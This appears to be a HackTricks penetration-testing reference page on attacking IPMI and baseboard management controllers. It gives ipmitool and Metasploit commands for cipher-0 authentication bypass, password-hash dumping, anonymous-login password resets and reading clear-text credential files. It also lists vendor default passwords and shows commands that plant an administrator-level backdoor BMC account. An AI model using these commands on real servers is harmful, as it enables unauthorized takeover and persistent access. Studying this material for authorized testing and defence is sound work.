 # 623/UDP/TCP - IPMI

## 623/UDP/TCP - IPMI

{{#include ../banners/hacktricks-training.md}}

<figure><img src="/images/image (2).png" alt=""><figcaption></figcaption></figure>

Deepen your expertise in **Mobile Security** with 8kSec Academy. Master iOS and Android security through our self-paced courses and get certified:

{% embed url="https://academy.8ksec.io/" %}

## Basic Information

### **Overview of IPMI**

**[Intelligent Platform Management Interface (IPMI)](https://www.thomas-krenn.com/en/wiki/IPMI_Basics)** offers a standardized approach for remote management and monitoring of computer systems, independent of the operating system or power state. This technology allows system administrators to manage systems remotely, even when they're off or unresponsive, and is especially useful for:

- Pre-OS boot configurations
- Power-off management
- Recovery from system failures

IPMI is capable of monitoring temperatures, voltages, fan speeds, and power supplies, alongside providing inventory information, reviewing hardware logs, and sending alerts via SNMP. Essential for its operation are a power source and a LAN connection.

Since its introduction by Intel in 1998, IPMI has been supported by numerous vendors, enhancing remote management capabilities, especially with version 2.0's support for serial over LAN. Key components include:

- **Baseboard Management Controller (BMC):** The main micro-controller for IPMI operations.
- **Communication Buses and Interfaces:** For internal and external communication, including ICMB, IPMB, and various interfaces for local and network connections.
- **IPMI Memory:** For storing logs and data.

![https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right](https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right)

**Default Port**: 623/UDP/TCP (It's usually on UDP but it could also be running on TCP)

## Enumeration

### Discovery

```bash
nmap -n -p 623 10.0.0./24
nmap -n-sU -p 623 10.0.0./24
use  auxiliary/scanner/ipmi/ipmi_version
```

You can **identify** the **version** using:

```bash
use auxiliary/scanner/ipmi/ipmi_version
nmap -sU --script ipmi-version -p 623 10.10.10.10
```

### IPMI Vulnerabilities

In the realm of IPMI 2.0, a significant security flaw was uncovered by Dan Farmer, exposing a vulnerability through **cipher type 0**. This vulnerability, documented in detail at [Dan Farmer's research](http://fish2.com/ipmi/cipherzero.html), enables unauthorized access with any password provided a valid user is targeted. This weakness was found across various BMCs from manufacturers like HP, Dell, and Supermicro, suggesting a widespread issue within all IPMI 2.0 implementations.

### **IPMI Authentication Bypass via Cipher 0**

To detect this flaw, the following Metasploit auxiliary scanner can be employed:

```bash
use auxiliary/scanner/ipmi/ipmi_cipher_zero
```

Exploitation of this flaw is achievable with `ipmitool`, as demonstrated below, allowing for the listing and modification of user passwords:

```bash
apt-get install ipmitool # Installation command
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user list # Lists users
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user set password 2 abc123 # Changes password
```

### **IPMI 2.0 RAKP Authentication Remote Password Hash Retrieval**

This vulnerability enables retrieval of salted hashed passwords (MD5 and SHA1) for any existing username. To test this vulnerability, Metasploit offers a module:

```bash
msf > use auxiliary/scanner/ipmi/ipmi_dumphashes
```

### **IPMI Anonymous Authentication**

A default configuration in many BMCs allows "anonymous" access, characterized by null username and password strings. This configuration can be exploited to reset passwords of named user accounts using `ipmitool`:

```bash
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user list
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user set password 2 newpassword
```

### **Supermicro IPMI Clear-text Passwords**

A critical design choice in IPMI 2.0 necessitates the storage of clear-text passwords within BMCs for authentication purposes. Supermicro's storage of these passwords in locations such as `/nv/PSBlock` or `/nv/PSStore` raises significant security concerns:

```bash
cat /nv/PSBlock
```

### **Supermicro IPMI UPnP Vulnerability**

Supermicro's inclusion of a UPnP SSDP listener in its IPMI firmware, particularly on UDP port 1900, introduces a severe security risk. Vulnerabilities in the Intel SDK for UPnP Devices version 1.3.1, as detailed by [Rapid7's disclosure](https://blog.rapid7.com/2013/01/29/security-flaws-in-universal-plug-and-play-unplug-dont-play), allow for root access to the BMC:

```bash
msf> use exploit/multi/upnp/libupnp_ssdp_overflow
```

### Brute Force

**HP randomizes the default password** for its **Integrated Lights Out (iLO)** product during manufacture. This practice contrasts with other manufacturers, who tend to use **static default credentials**. A summary of default usernames and passwords for various products is provided as follows:

- **HP Integrated Lights Out (iLO)** uses a **factory randomized 8-character string** as its default password, showcasing a higher security level.
- Products like **Dell's iDRAC, IBM's IMM**, and **Fujitsu's Integrated Remote Management Controller** use easily guessable passwords such as "calvin", "PASSW0RD" (with a zero), and "admin" respectively.
- Similarly, **Supermicro IPMI (2.0), Oracle/Sun ILOM**, and **ASUS iKVM BMC** also use simple default credentials, with "ADMIN", "changeme", and "admin" serving as their passwords.

## Accessing the Host via BMC

Administrative access to the Baseboard Management Controller (BMC) opens various pathways for accessing the host's operating system. A straightforward approach involves exploiting the BMC's Keyboard, Video, Mouse (KVM) functionality. This can be done by either rebooting the host to a root shell via GRUB (using `init=/bin/sh`) or booting from a virtual CD-ROM set as a rescue disk. Such methods allow for direct manipulation of the host's disk, including the insertion of backdoors, data extraction, or any necessary actions for a security assessment. However, this requires rebooting the host, which is a significant drawback. Without rebooting, accessing the running host is more complex and varies with the host's configuration. If the host's physical or serial console remains logged in, it can easily be taken over through the BMC's KVM or serial-over-LAN (sol) functionalities via `ipmitool`. Exploring the exploitation of shared hardware resources, like the i2c bus and Super I/O chip, is an area that demands further investigation.

## Introducing Backdoors into BMC from the Host

Upon compromising a host equipped with a BMC, the **local BMC interface can be leveraged to insert a backdoor user account**, creating a lasting presence on the server. This attack necessitates the presence of **`ipmitool`** on the compromised host and the activation of BMC driver support. The following commands illustrate how a new user account can be injected into the BMC using the host's local interface, which bypasses the need for authentication. This technique is applicable to a wide range of operating systems including Linux, Windows, BSD, and even DOS.

```bash
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)

ipmitool user set name 4 backdoor
ipmitool user set password 4 backdoor
ipmitool user priv 4 4
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)
4  backdoor        true    false      true      ADMINISTRATOR
```

## Shodan

- `port:623`

## References

- [https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/](https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/)

<figure><img src="/images/image (2).png" alt=""><figcaption></figcaption></figure>

Deepen your expertise in **Mobile Security** with 8kSec Academy. Master iOS and Android security through our self-paced courses and get certified:

{% embed url="https://academy.8ksec.io/" %}

{{#include ../banners/hacktricks-training.md}}


